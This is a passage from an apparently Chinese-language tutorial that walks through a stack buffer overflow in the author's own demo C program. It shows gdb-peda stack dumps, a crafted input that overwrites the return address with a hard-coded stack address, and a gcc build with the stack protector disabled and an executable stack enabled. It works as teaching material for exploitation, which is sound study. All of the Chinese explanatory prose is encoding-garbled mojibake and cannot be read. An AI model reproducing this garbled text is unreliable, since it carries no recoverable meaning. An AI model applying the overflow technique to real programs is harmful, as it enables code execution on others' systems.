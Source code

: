 </code></pre><p>鍗曟鎵ц锛岃烦鍥�<code>main()</code>鍑芥暟棰嗙┖</p>
<pre><code>[-------------------------------------code-------------------------------------]
   0x8048493 &lt;main+41&gt;:    lea    eax,[ebp-0x14]
   0x8048496 &lt;main+44&gt;:    push   eax
   0x8048497 &lt;main+45&gt;:    call   0x804843b &lt;Overflow&gt;
=&gt; 0x804849c &lt;main+50&gt;:    add    esp,0x10
   0x804849f &lt;main+53&gt;:    mov    eax,0x0
   0x80484a4 &lt;main+58&gt;:    mov    ecx,DWORD PTR [ebp-0x4]
   0x80484a7 &lt;main+61&gt;:    leave  
   0x80484a8 &lt;main+62&gt;:    lea    esp,[ecx-0x4]
</code></pre><p>鍚屾椂娉ㄦ剰鏍堝彉鍖栵紝<code>0x04</code>瀛楄妭鐨勬暟鎹寮瑰嚭锛屽脊鍒癊IP瀵勫瓨鍣�</p>
<pre><code>[------------------------------------stack-------------------------------------]
0000| 0xbfffef30 --&gt; 0xbfffef44 (&quot;AAAA&quot;)
0004| 0xbfffef34 --&gt; 0x0 
0008| 0xbfffef38 --&gt; 0xb7e37a50 (&lt;__new_exitfn+16&gt;:    add    ebx,0x1835b0)
0012| 0xbfffef3c --&gt; 0x80484fb (&lt;__libc_csu_init+75&gt;:    add    edi,0x1)
0016| 0xbfffef40 --&gt; 0x1 
0020| 0xbfffef44 (&quot;AAAA&quot;)
0024| 0xbfffef48 --&gt; 0x0 
0028| 0xbfffef4c --&gt; 0x0
</code></pre><p>瀵逛簬绋嬪簭鐨勮繑鍥炶繃绋嬶紝鎴戜滑宸茬粡寮勬竻妤氫簡锛岀粨鍚堜笂闈㈢殑婧㈠嚭鍒嗘瀽锛屽綋鎴戜滑鐨勬暟鎹鐩栦簡EBP鍚庨潰4瀛楄妭鏁版嵁锛岃繖涓綅缃篃鍙綔杩斿洖鍦板潃鎴栬€匛IP</p>
<p>閭ｄ箞濡傛灉鎴戜滑纭紪鐮佷竴涓湴鍧€锛岃繖涓湴鍧€鎸囧悜鎴戜滑杈撳叆鏁版嵁鐨勯鍦板潃锛屽畠浼氫笉浼氳烦杩囧幓鍛紵</p>
<p>姝ゆ椂ASLR宸插叧闂紝鍙互纭紪鐮侊紝棣栧厛鎴戜滑鎶婂墠闈㈢殑绌洪棿鍏ㄩ兘濉厖浜嗭紝鍖呮嫭EBP涔熼兘濉厖<code>A</code>锛岀劧鍚庡湪杩斿洖鍦板潃濉厖缂撳啿鍖洪噷瀛楃涓查鍦板潃锛岃娉ㄦ剰灏忕搴忕殑闂</p>
<p>鍏堝～鍏�28涓�<code>A</code>杩涘幓锛屽垰濂藉彲浠ヨ鐩栧埌杩斿洖鍦板潃锛屽悓鏃舵敞鎰忕洰鏍囧湴鍧€鍐嶇紦鍐插尯鐨勪綅缃紝鐢变簬鎴戜滑杈撳叆鐨勫瓧绗︿覆闀垮害鍘熷洜锛屾鏃剁洰鏍囧湴鍧€鐩稿鍓嶉潰娴嬭瘯鏃剁殑鍦板潃瑕侀珮锛屼絾鏄浉瀵瑰湴鍧€鏄笉浼氬彉鐨�</p>
<pre><code>gdb-peda$ stack 10
0000| 0xbfffeef0 --&gt; 0xbfffef04 --&gt; 0xbfffefa4 --&gt; 0xb24f3e8f 
0004| 0xbfffeef4 --&gt; 0xbfffef30 (&#39;A&#39; &lt;repeats 28 times&gt;)
0008| 0xbfffeef8 --&gt; 0xbfffef10 --&gt; 0xffffffff 
0012| 0xbfffeefc --&gt; 0x8048254 (&quot;__libc_start_main&quot;)
0016| 0xbfffef00 --&gt; 0x0 
0020| 0xbfffef04 --&gt; 0xbfffefa4 --&gt; 0xb24f3e8f 
0024| 0xbfffef08 --&gt; 0xb7fbb000 --&gt; 0x1b1db0 
0028| 0xbfffef0c --&gt; 0xfd57 
0032| 0xbfffef10 --&gt; 0xffffffff 
0036| 0xbfffef14 --&gt; 0x2f (&#39;/&#39;)
`
</code></pre><p>鍙互浣跨敤Python鏉ュ畬鎴愬皬绔簭鐨勮浆鎹�</p>
<pre><code>&gt;&gt;&gt; print repr(struct.pack(&quot;&lt;I&quot;, 0xbfffef04))
&#39;\x04\xef\xff\xbf&#39;
</code></pre><p>淇敼杈撳叆鐨勫瓧绗︿覆</p>
<pre><code>char temp[32] = &quot;AAAAAAAAAAAAAAAAAAAAAAAA\x04\xef\xff\xbf&quot;;
</code></pre><p>缂栬瘧杩愯</p>
<pre><code>wnagzihxain@toT0C:~$ gcc -fno-stack-protector -fno-builtin -zexecstack -o Demo Demo.c
wnagzihxain@toT0C:~$ ./Demo
AAAAAAAAAAAAAAAAAAAAAAAA锟斤拷锟�
娈甸敊璇� (鏍稿績宸茶浆鍌�)
</code></pre><p>鎵ц瀹屾嫹璐濇寚浠わ紝姝ゆ椂鏍堝竷灞€濡備笅锛岃繑鍥炲湴鍧€宸茶鎴戜滑瑕嗙洊</p>
<pre><code>gdb-peda$ stack 20
0000| 0xbfffeef0 --&gt; 0xbfffef04 (&#39;A&#39; &lt;repeats 24 times&gt;, &quot;\004\357\377\277&quot;)
0004| 0xbfffeef4 --&gt; 0xbfffef30 (&#39;A&#39; &lt;repeats 24 times&gt;, &quot;\004\357\377\277&quot;)
0008| 0xbfffeef8 --&gt; 0xbfffef10 (&#39;A&#39; &lt;repeats 12 times&gt;, &quot;\004\357\377\277&quot;)
0012| 0xbfffeefc --&gt; 0x8048254 (&quot;__libc_start_main&quot;)
0016| 0xbfffef00 --&gt; 0x0 
0020| 0xbfffef04 (&#39;A&#39; &lt;repeats 24 times&gt;, &quot;\004\357\377\277&quot;)
0024| 0xbfffef08 (&#39;A&#39; &lt;repeats 20 times&gt;, &quot;\004\357\377\277&quot;)
0028| 0xbfffef0c (&#39;A&#39; &lt;repeats 16 times&gt;, &quot;\004\357\377\277&quot;)
0032| 0xbfffef10 (&#39;A&#39; &lt;repeats 12 times&gt;, &quot;\004\357\377\277&quot;)
0036| 0xbfffef14 (&quot;AAAAAAAA\004\357\377\277&quot;)